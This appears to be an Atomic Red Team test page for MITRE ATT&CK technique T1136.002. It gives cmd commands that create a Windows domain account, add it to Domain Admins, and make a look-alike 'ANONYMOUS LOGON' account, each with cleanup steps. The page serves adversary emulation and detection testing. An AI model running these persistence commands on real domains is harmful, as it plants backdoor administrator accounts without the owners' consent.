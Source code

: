 # T1136.002 - Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user
Creates a new domain admin user in a command prompt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.002_Admin|
| password | Password of the user to create | String | T1136_pass123!|
| group | Domain administrator group to which add the user to | String | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON
Create a new account similar to ANONYMOUS LOGON in a command prompt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | ANONYMOUS  LOGON|
| password | Password of the user to create | String | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
